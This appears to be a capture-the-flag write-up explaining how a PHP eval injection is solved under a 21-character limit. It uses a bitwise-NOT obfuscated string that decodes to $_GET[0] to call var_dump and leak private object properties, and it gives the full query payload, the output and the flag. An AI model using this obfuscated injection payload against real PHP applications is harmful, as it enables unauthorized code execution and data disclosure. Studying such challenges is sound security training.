

Here there is a similar challenge to [level14](./level14.md), However, this time we can only use `21` chars, and not `25` chars.

We can see this code:
```php
class A {
    public $pub;
    protected $pro ;
    private $pri;

    function __construct($pub, $pro, $pri) {
        $this->pub = $pub;
        $this->pro = $pro;
        $this->pri = $pri;
    }
}

include 'file_containing_the_flag_parts.php';
$a = new A($f1, $f2, $f3);

unset($f1);
unset($f2);
unset($f3);
```

So, the flag is in `$a`, we just need to somehow print its content and we will get the flag.

We will use the neat trick we saw earlier on [level14](./level14.md), and will use this obfuscated string `${~%A0%B8%BA%AB}{0}`, which basically means `$_GET[0]`.

Then, my idea was to use this as the `function_name`, and send as a param `$a`, and if we will get luck, we might print the content.

so, this is our payload: `${~%A0%B8%BA%AB}{0}($a)`, and we will send as function: `var_dump`, and full query is:
`?code=${~%A0%B8%BA%AB}{0}($a)&0=var_dump`

what happens basically is: 
`eval ("echo $code;")` becomes
`eval ("echo $_GET[0]($a);")` becomes
`eval("echo var_dump($a);")`, and here you can see what happens:
```php
class A {
    public $pub="very";
    protected $pro="big";
    private $pre="secret";
}
$a = new A();

eval('echo var_dump($a);');
```
* output
> object(A)#1 (3) {
  ["pub"]=>
  string(4) "very"
  ["pro":protected]=>
  string(3) "big"
  ["pre":"A":private]=>
  string(6) "secret"
}




**Flag:** ***`WEBSEC{But_I_was_told_that_OOP_was_flawless_and_stuff_:<}`*** 
